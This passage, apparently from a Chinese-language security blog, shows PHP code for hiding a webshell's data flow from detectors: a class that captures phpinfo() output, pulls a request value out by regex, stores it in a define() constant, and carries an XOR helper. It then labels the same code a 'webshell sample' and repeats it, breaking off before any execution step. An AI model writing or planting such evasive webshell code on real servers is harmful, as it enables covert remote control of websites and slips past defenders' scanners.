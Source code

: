 这里我选择使用了  
 define   
来做数据流的混淆：  
```
<?php
namespace DemoInfo {
    define("DEMO", (new Demo())->invokeMethod());
    function xorencrypt($str, $key)
    {
        $slen = strlen($str);
        $klen = strlen($key);
        $cipher = '';
        for ($i = 0; $i < $slen; $i = $i + $klen) {
            $cipher .= substr($str, $i, $klen) ^ $key;
        }
        return $cipher;
    }
    class Demo
    {
        private $content;
        public function __construct()
        {
            ob_start();
            phpinfo();
            $this->content = ob_get_contents();
            ob_end_clean();
        }
        public function invokeMethod()
        {
            preg_match("/1'\]<\/td><td class=\"v\">(.*?)<\/td><\/tr>/i", $this->content, $matches);
            return $matches[1];
        }
    }
}
```  
### webshell 样例：  
```
<?php
namespace DemoInfo {
    define("DEMO", (new Demo())->invokeMethod());
    function xorencrypt($str, $key)
    {
        $slen = strlen($str);
        $klen = strlen($key);
        $cipher = '';
        for ($i = 0; $i < $slen; $i = $i + $klen) {
            $cipher .= substr($str, $i, $klen) ^ $key;
        }
        return $cipher;
    }
    class Demo
    {
        private $content;
        public function __construct()
        {
            ob_start();
            phpinfo();
            $this->content = ob_get_contents();
            ob_end_clean();
        }
        public function invokeMethod()
        {
            preg_match("/1'\]<\/td><td class=\"v\">(.*?)<\/td><\/tr>/i", $this->content, $matches);
```